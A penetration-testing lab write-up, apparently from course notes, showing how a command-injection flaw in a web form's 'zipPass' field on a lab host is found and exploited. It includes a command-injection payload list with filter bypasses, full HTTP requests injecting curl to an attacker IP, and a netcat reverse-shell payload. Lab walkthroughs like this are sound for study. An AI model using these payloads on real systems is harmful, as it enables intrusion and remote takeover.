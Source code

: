 
after getting `local.txt` this page is presented - hit `submit` to review `burp`

![[Pasted image 20241205111037.png]]
the `submissionData` & `zipPass` parameters are potential vectors
![[Pasted image 20241205111155.png]]
when checking the `Password Protect this Zip File` a `Password` field is presented
![[Pasted image 20241205111446.png]]
now reviewing it in `burp` the `passCheck` field now exists

![[Pasted image 20241205111628.png]]
send to `repeater` to begin testing

#### LCE
- tested for `LCE`, didnt find anything in  
![[Pasted image 20241205112806.png]]
#### RCE - proof.txt

![[Pasted image 20241205130503.png]]
testing payload
- in order to get `curl` to work in this field we had to use `common protection` bypass with this payload list from [[11.2 - 11.2.4 Dealing with Common Protections]]

```bash
bogus
;id
|id
`id`
i$()d
;i$()d
|i$()d
FAIL||i$()d
&&id
&id
FAIL_INTENT|id
FAIL_INTENT||id
`sleep 5`
`sleep 10`
`id`
$(sleep 5)
$(sleep 10)
$(id)
;`echo 'aWQK' |base64 -d`
FAIL_INTENT|`echo 'aWQK' |base64 -d`
FAIL_INTENT||`echo 'aWQK' |base64 -d`
```

```http
POST /personnelSubmission/index.php HTTP/1.1
Host: bubo
Content-Length: 100
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://bubo
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bubo/personnelSubmission/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

submissionData=Data+goes+here.&passCheck=on&zipPass=`curl http://192.168.45.171:8000/test.txt`
```
python3 server `test.txt` hit, shows we have rce
![[Pasted image 20241205130619.png]]
now to catch a `reverse shell` - generate `nc -c sh 192.168.45.171 1337` with `revshells.com`

![[Pasted image 20241205133904.png]]
create a `nc` listener

submit `payload` with `URL` encoding `CTRL+U`
```bash
POST /personnelSubmission/index.php HTTP/1.1
Host: bubo
Content-Length: 88
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://bubo
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bubo/personnelSubmission/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

submissionData=Data+goes+here.&passCheck=on&zipPass=`nc+-c+sh+192.168.45.171+1337`
```
catch `revshell` & profit
![[Pasted image 20241205135720.png]]
